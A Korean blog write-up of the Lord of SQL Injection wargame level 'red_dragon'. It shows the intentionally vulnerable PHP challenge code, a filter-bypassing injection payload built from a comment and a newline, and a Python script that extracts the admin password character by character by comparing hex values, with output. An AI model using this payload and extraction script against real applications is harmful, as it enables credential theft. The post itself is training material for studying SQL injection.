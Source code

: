 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - red_dragon 문제풀이"
excerpt_separator: <!--more-->
comments : true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


정신 차려보니 `green_dragon` 문제를 푼지 벌써 2주가 지나있다.  

그동안 휴가도 다녀오고 휴가를 다녀오느라 못한 일들을 하느라 정신이 없었다.  

`red_dragon`을 오랜만에 풀어보았는데 좀 어려웠다 ㅠㅠ  

<!--more-->

코드는 다음과 같다.  

```php
------------------------------------------------------------------------------------
query : select id from prob_red_dragon where id='' and no=1
------------------------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\./i', $_GET['id'])) exit("No Hack ~_~");
  if(strlen($_GET['id']) > 7) exit("too long string");
  $no = is_numeric($_GET['no']) ? $_GET['no'] : 1;
  $query = "select id from prob_red_dragon where id='{$_GET[id]}' and no={$no}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result['id']}</h2>";

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_red_dragon where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])) solve("red_dragon");
  highlight_file(__FILE__);
?>
```

이번엔 `id`와 `no`를 입력 받는다.  

그런데 `id`는 `7글자`를 넘을 수 없고, `no`에는 순전히 `숫자`만 들어갈 수 있다.  

그래서 처음에는 `id가 admin인 행의 no를 찾아보자!`라고 생각했는데, `no`가 아무래도 작은 수는 아닌가보다.  

그리고 문제를 풀려면 정확한 pw의 값이 필요한데, 이 방법으로는 그걸 알아낼 수도 없다.  

한참을 고민했는데 모르겠어서 주변의 `웹잘알`님께 물어보았다.  

그랬더니 아래와 같은 방법을 알려주었다.  

```
?id='||pw>%23&no=%0a0x61
```

이렇게 입력하면 완성되는 쿼리는 다음과 같다.  

```
select id from prob_red_dragon where id=''||pw>#' and no=
0x61
```

`no=` 다음에 `%0a`를 입력했기 때문에 뒤의 `0x61`은 다음 줄에 들어간다.  

`#`은 `MySQL`에서 한 줄 주석 문자이며, `MySQL`에서는 여러 줄에 걸쳐 쿼리를 입력할 수 있다.  

그래서 위의 쿼리문에서 주석처리되는 부분과 개행을 빼고 깔끔하게 정리하면 아래와 같이 된다.  

```
select id from prob_red_dragon where id=''||pw>0x61
```

헤...  

이러면 한 글자 씩 pw를 비교할 수 있다!  

아래는 내 서버에서 테스트 해 본 결과이다.  

```
mysql> select * from user where id='admin' and pw>0x61;
+---------+----------+
| id      | pw       |
+---------+----------+
| admin   | asdawqwe |
+---------+----------+
1 row in set (0.00 sec)

mysql> select * from user where id='admin' and pw>0x62;
Empty set (0.00 sec)

mysql> select * from user where id='admin' and pw>0x6172;
+---------+----------+
| id      | pw       |
+---------+----------+
| admin   | asdawqwe |
+---------+----------+
1 row in set (0.00 sec)

mysql> select * from user where id='admin' and pw>0x6173;
+---------+----------+
| id      | pw       |
+---------+----------+
| admin   | asdawqwe |
+---------+----------+
1 row in set (0.01 sec)

mysql> select * from user where id='admin' and pw>0x6174;
Empty set (0.00 sec)
```

위와 같이 pw를 한 글자 씩 비교할 수 있는데, `=`이 아닌 `>`를 통해 비교하고 있기 때문에 결과값이 나오지 않는 순간의 직전 값이 pw의 정확한 값이 된다.  

따라서 문제에서 pw의 값을 `hex` 값으로 비교를 하다가 `Hello admin`이 안나온다면 그 값에서 `-1`을 한 값이 pw가 된다.  

그런데 마지막 글자를 찾을 때는 다르다.  

```
mysql> select * from user where id='admin' and pw>0x6173646177717764;
+---------+----------+
| id      | pw       |
+---------+----------+
| admin   | asdawqwe |
+---------+----------+
1 row in set (0.00 sec)

mysql> select * from user where id='admin' and pw>0x6173646177717765;
Empty set (0.00 sec)
```

위의 예시에서도 알 수 있듯이 마지막 글자는 `Hello admin`이 나오지 않은 값이 정확한 pw의 값이다.  

이를 바탕으로 아래와 같이 코드를 구현했다.  

```python
import urllib2
import urllib
import requests

flag = "0x"

url = "http://los.rubiya.kr/red_dragon_b787de2bfe6bc3454e2391c4e7bb5de8.php?id="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find password"

for j in range(1, 20):
	found = False
	for i in range(48, 128):
		try:
			query = url + "'||pw>%23&no=%0a" + flag + hex(i)[2:]
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if 'Hello admin' not in r.text:
			flag += str(hex(i - 1))[2:]
			print "[+] Found " + str(j), ":", flag
			found = True
			break
	if not found:
		print "[+] Found password finished"
		break
	
flag = flag[2:].decode("hex")
flag = flag[:-1] + chr(ord(flag[-1]) + 1)
print "[+] Found password : ", flag
print "[+] End"
```

pw의 길이를 모르기 때문에 일단 20까지 반복문을 돌렸다.  

그리고 마지막 글자는 `Hello admin`이 나오지 않은 그 순간의 값이기 때문에 다시 `+1`을 해 출력 해 주었다.  

그 결과 다음과 같았다.  

```
$ python ex.py 
[+] Start
[+] Find password
[+] Found 1 : 0x41
[+] Found 2 : 0x4135
[+] Found 3 : 0x413533
[+] Found 4 : 0x41353344
[+] Found 5 : 0x4135334444
[+] Found 6 : 0x413533444434
[+] Found 7 : 0x41353344443436
[+] Found 8 : 0x4135334444343640
[+] Found password finished
[+] Found password :  A53DD46A
[+] End
```

이 전의 문제에서도 pw의 값은 소문자였기 때문에 이번에도 아래와 같이 소문자로 입력 해 주었다.  

```
?pw=a53dd46a
```

그 결과 문제를 풀 수 있었다.  

```php
----------------------------------------------------------------------------------
query : select id from prob_red_dragon where id='' and no=1
----------------------------------------------------------------------------------

RED_DRAGON Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\./i', $_GET['id'])) exit("No Hack ~_~");
  if(strlen($_GET['id']) > 7) exit("too long string");
  $no = is_numeric($_GET['no']) ? $_GET['no'] : 1;
  $query = "select id from prob_red_dragon where id='{$_GET[id]}' and no={$no}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result['id']}</h2>";

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_red_dragon where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])) solve("red_dragon");
  highlight_file(__FILE__);
?>
```

`RED_DRAGON Clear!!`
